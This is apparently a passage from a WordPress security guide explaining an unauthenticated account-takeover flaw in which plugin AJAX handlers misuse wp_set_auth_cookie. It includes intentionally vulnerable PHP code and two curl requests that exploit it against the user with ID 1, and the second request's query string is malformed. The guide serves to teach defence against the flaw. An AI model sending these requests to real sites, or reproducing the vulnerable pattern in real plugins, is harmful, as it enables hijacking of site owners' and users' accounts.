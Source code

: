 One of the functions that could be used to log in a user is the [`wp_set_auth_cookie`](https://developer.wordpress.org/reference/functions/wp_set_auth_cookie/) function. This function sets the authentication cookies based on the user ID. We only need to set the targeted user id through the `$user_id` parameter and WordPress will return the authentication cookie, basically allowing the user to log in to the targeted user's account.

Example of vulnerable code:

```php
add_action("wp_ajax_nopriv_configure_platform_callback", "configure_platform_callback");
add_action("wp_ajax_nopriv_login_third_party", "login_third_party");

function configure_platform_callback(){
    $user_id = filter_input( INPUT_POST, 'user_id', FILTER_SANITIZE_STRING );
    $fbid  = filter_input( INPUT_POST, 'fbid', FILTER_SANITIZE_STRING );

    update_user_meta($user_id, "fbid", $fbid);
}

function login_third_party(){
    if ( ! isset( $_GET['fb-login'] ) ) {
        return;
    }

    $value = filter_input( INPUT_GET, 'fbid', FILTER_SANITIZE_STRING );
    $user  = get_users(
        [
            'meta_key'    => 'fbid',
            'meta_value'  => $value,
            'number'      => 1,
            'count_total' => false,
        ]
    );

    $id    = $user[0]->ID;

    wp_clear_auth_cookie();
    wp_set_current_user( $id );
    wp_set_auth_cookie( $id );
}
```

To exploit this, any unauthenticated user just needs to perform a POST and GET request to the `admin-ajax.php` endpoint specifying the needed action and parameter to trigger the `configure_platform_callback` function and then the `login_third_party` function.

```bash
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=configure_platform_callback -d "user_id=1&fbid=1337"
curl <WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=login_third_party?fb-login=1&fbid=1337
``` 

Below are some of the findings related to Insecure Authentication Cookie Set:

- [Critical Vulnerabilities Patched in Jupiter X Core Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-jupiter-x-core-plugin/#unauthenticated-account-takeover)